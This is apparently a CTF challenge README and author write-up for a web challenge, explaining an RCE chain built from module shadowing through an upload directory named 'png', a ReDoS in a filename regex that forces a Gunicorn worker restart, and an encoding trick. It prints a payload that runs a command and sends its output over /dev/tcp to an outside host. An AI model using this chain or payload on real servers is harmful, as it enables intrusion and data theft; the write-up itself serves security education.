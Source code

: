## Challenge Information

- Name: Images and Words
- Type: Web + Misc
- Description:
```
BGM: [Dream Theater - Images and Words](https://www.youtube.com/watch?v=MkLIJw-fOIQ&list=PL8ANB2FxMC6WnDQDe_MS-OioyR5GEgEvC)
```

- Files provided: All the files under `docker/zeus/app_scaffold/`
- Solves: 0 / 720

## Build

```
docker-compose build
docker-compose up

# attach bash for debugging
docker ps
docker exec -it <CONTAINER ID> bash
```

## Writeup

```

*-----------------------*
|                       |
|    Spoilers ahead!    |
|                       |
*-----------------------*
```


This web application will render a text file to a PNG image using [pypng](https://github.com/drj11/pypng) library. The user can upload a text file under directory `png`. 

The key is to identify the package name `png` happens to be the same as the upload directory name. Therefore, if the directory `png` exists, `import png` will not import the module `pypng`, but `png` in current working directory.

Thus, we can upload the python file named `__init__.py`:

```python
__import__('os').system('bash -c "/readflag>/dev/tcp/bookgin.tw/80"')
```

However, because the web server is using Gunicorn. Gunicorn uses pre-fork worker model to launch workers. The pypng module has already been loaded. Unless we manually reload it or restart the python process, it will not import the file under `png` in current work directory.

In fact, Gunicorn will monitor its worker processes. If the worker is not responsive or stuck somehow, by default [it will await 30 seconds](http://docs.gunicorn.org/en/stable/settings.html#timeout) and then restart the worker. You can notify the process id is different.

```
[2019-10-07 12:36:04 +0800] [23271] [INFO] Starting gunicorn 19.9.0
[2019-10-07 12:36:04 +0800] [23271] [INFO] Listening at: http://127.0.0.1:8080 (23271)
[2019-10-07 12:36:04 +0800] [23271] [INFO] Using worker: uvicorn.workers.UvicornWorker
[2019-10-07 12:36:04 +0800] [23274] [INFO] Booting worker with pid: 23274
[2019-10-07 12:36:04 +0800] [23274] [INFO] Started server process [23274]
[2019-10-07 12:36:04 +0800] [23274] [INFO] Waiting for application startup.
[2019-10-07 12:37:05 +0800] [23271] [CRITICAL] WORKER TIMEOUT (pid:23274)
[2019-10-07 12:37:06 +0800] [23825] [INFO] Booting worker with pid: 23825
[2019-10-07 12:37:06 +0800] [23825] [INFO] Started server process [23825]
[2019-10-07 12:37:06 +0800] [23825] [INFO] Waiting for application startup.
```

Hence we have to find an approach to make the server stuck for more than 30 seconds. The server source code strictly truncates the filename and file content. Nginx also has also set a limitation 1M for the uploaded file size. It's too difficult to upload a huge file to make the server stuck. However, in this function:

```python
def sanitize_filename(dangerous_filename):
    print(len(dangerous_filename))
    res = re.match(r'^[\.a-zA-Z0-9_-]([\.a-zA-Z0-9_-]+)*$', dangerous_filename)
    safe_filename = secrets.token_urlsafe(32)[:32] if res is None else dangerous_filename
    return safe_filename
```

The regular expression is vulnerable to [ReDoS](https://en.wikipedia.org/wiki/ReDoS). If we have a file named `aaaaaaaaaaaaaaaaaaaaaa!`, the regular expression will backtrack for a large number of matches. You could try this payload in [regex101](https://regex101.com/r/61PZxD/2). By exploiting this we can make Gunicorn restart the worker process and load our malicious `png/__init__.py`.

One more thing: the server will remove the uploaded text file.

```python
def render(filename):
    src = config.UPLOAD_DIR / filename
    with open(src, 'r') as f:
        text = f.read()
    src.unlink()
    dst = config.UPLOAD_DIR / (filename + '.png')
    with open(dst, 'wb') as f:
        text2image.render(text, f)
```

To exploit, we can upload a non-UTF-8 Python file with [explicit declaration of encoding](https://www.python.org/dev/peps/pep-0263/#id8). Race condition should also work here but it's less stable. The full exploit is in `exploit`.

## Postscript

One day I was writing some Python code, and the directory name happened to conflict with a package name. Then I came out with this idea. For the Gunicorn part, I just need some execution which will take a long time. ReDoS (in fact I heard this on a USENIX conference) quickly flashed through my mind.

Although some techniques seem less useful regarding exploitation, sometimes it becomes a very important part in the RCE chain.

I hope this is a not-so-crafted challenge and hope you enjoy it!
